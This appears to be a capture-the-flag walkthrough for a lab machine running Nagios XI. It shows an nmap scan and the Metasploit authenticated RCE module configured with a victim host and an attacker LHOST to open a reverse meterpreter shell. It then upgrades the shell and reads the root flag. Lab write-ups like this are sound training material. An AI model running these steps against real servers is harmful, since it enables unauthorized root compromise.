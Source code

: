 # Montioring 

### Recon

## portcsanning

as usual we begin with a portscan using the following command:

```nmap -sV -sC -P0 <HOST>```

![Alt text](mon1.png)

so from the result of our scan we can see that we have several ports open on our target system.

- ### port ***80(http)***

- ### port ***25(smtp)***

- ### port ***22(ssh)***

- ### port ***443(http- Apache)***

- ### port ***389(ldap)***

now since we have both port 80 and 443 runnng an apache web server lets navigate to the webpage and see what we have.


![Alt text](mon2.png)


we can see a button which says ***Click the link below to get started using Nagios XI.***. once we do that we can now see a login page load up.


![Alt text](mon3.png)

so i tried out some various default login creds but they didnt seem to work.

well, lets try to use search for an exploit of some sort on using the searchsploit utility. 


![Alt text](mon4.png)

we can load up the metasploit using the following command: 

```msfconsole```

```search nagios```


![Alt text](mon5.png)

```use exploit/linux/http/nagios_xi_mibs_authenticated_rce```

- ```set RHOST <machine IP> ```

- ```set LHOST <attack-machine-ip>```

- ```set password admin```

- ```run```

![Alt text](mon6.png)

now we have gained a meterpreter shell let's drop into a regular shell.

command: ```shell```

to upgrade to a better abd stable shell we use the following command:

```python -c "import pty; pty.spawn('/bin/bash')"```

![Alt text](mon7.png)

luckly we gained access as the root user. to locate the flag we navigate to ***/root*** directory and then read the flag using the following command:

```cd /root```

```cat proof.txt```


![Alt text](mon8.png)



